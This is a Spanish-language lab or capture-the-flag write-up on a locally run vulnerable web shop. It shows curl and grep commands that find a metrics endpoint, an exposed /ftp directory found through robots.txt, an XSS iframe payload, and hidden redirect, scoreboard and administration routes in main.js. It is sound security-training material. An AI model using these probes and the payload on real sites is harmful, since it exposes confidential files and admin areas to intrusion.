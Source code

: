 

## MÉTRICAS EXPUESTAS

Descripción: "encuentra el endpoint que muestra el uso de datos de un sistema de monitoreo famoso (prometheus)". 
Con una busqueda rápida en google vi lo que era "prometheus", un repositorio de un sistema de monitoreo de código abierto (vigilar el estado de la página, el tráfico,
las fallas...) luego busqué "prometheus monitoring endpoints" y con Ctrol+F y poniendo como filtro "/" para buscar rutas encontré metrcis, Por tanto
al poner en la URL ```"http://localhost:3000/metrics"``` di con ello

-----------------------------------------------------------------------------------------------

## ACCESO A DOCUMENTOS CONFIDENCIALES

Una buena práctica es buscar por el robots.txt, que es una ruta que le indica al motor de busqueda que no indexe ciertas rutas críticas.
```console
[cucuxii]:$  curl http://127.0.0.1:3000/robots.txt
User-agent: *
Disallow: /ftp
```
Probé a intentar acceder al ftp con un wrapper desde el navegador tal que ```ftp://127.0.0.0.1:3000``` pero no resultó, pero te dice que existe la ruta /ftp
```console
[cucuxii]:$  curl http://127.0.0.1:3000/ftp -s | html2text                                                                                                
****** ~ / ftp ******
    * quarantine5/22/2022_12:17:25_PM
    * acquisitions.md9095/22/2022_12:17:18_PM
    * announcement_encrypted.md3692375/22/2022_12:17:18_PM
....
[cucuxii]:$ curl http://127.0.0.1:3000/ftp/acquisitions.md
# Todo el archivo nada interesante...
```
Todo esto son archivos...
Aprovechando el XSS del panel del búsquéda tambien podemos llegar ahí ```<iframe src="http://127.0.0.1:3000/ftp">```

-----------------------------------------------------------------------------------------------

## ACCESO A RUTAS SECRETAS

Le hice un *curl* a la web para ver el código fuente, la cosa esque tira de iframe, aun así, este nos revela ciertas rutas. Para no tener que leer 
el codigo fuente, se grepea script src que es donde suelen estar los links casi siempre.
```console
[cucuxii]:$ http://127.0.0.1:3000 | grep -oP 'script src="(.*?)"
``` 
> Como curiosidad esta web tiene un iframe, es decir un cuadro que carga la web real, como una web dentro de otra. Cuando hacemos un curl nos da 
> el mismo código siempre, el del marco y no el del contenido, esto es una buena práctica ya que hace que dicho código sea mas complicado de acceder,
> pero todavía desde el navegador con boton derecho inspeccionar se ve el bueno.

Obtuve unas cuantas rutas. Entre ellas "main.js" que es la que más me llamo la atención. El js.beautify es para que salga en un formato legible, aun así era inmenso.
```console
[cucuxii]:$ curl http://127.0.0.1:3000/main.js -s | js-beautify > main.txt
```
La solución otra vez está en aplicar filtros. En scoreboard hablan de descubrir una redirección a una wallet. Así que podre filtrar por "redirect"
```console
[cucuxii]:$  cat main.js | grep "redirect" 
                                    url: "./redirect?to=https://blockchain.info/address/1AbKfgvw9psQ41NbLi8kufDQTezwG8DRZm",
                                    url: "./redirect?to=https://explorer.dash.org/address/Xr556RzuwX6hg5EGpkybbv5RanJoZN17kW",
                                    url: "./redirect?to=https://etherscan.io/address/0x0f933ab9fcaaa782d0279c300d73750e1311eae6",
[cucuxii]:$  curl http://127.0.0.1:3000/redirect?to=https://blockchain.info/address/1AbKfgvw9psQ41NbLi8kufDQTezwG8DRZm
Found. Redirecting to https://blockchain.info/address/1AbKfgvw9psQ41NbLi8kufDQTezwG8DRZm
```

El score-board tambien se encuentra facilmente con el grep, y la seccion de administración oculta también
```console
[cucuxii]:$  cat main.js | grep "score"
path: "score-board"
[cucuxii]:$  cat main.js | grep "admin"
path: "administration"
```
-----------------------------------------------------------------------------------------------



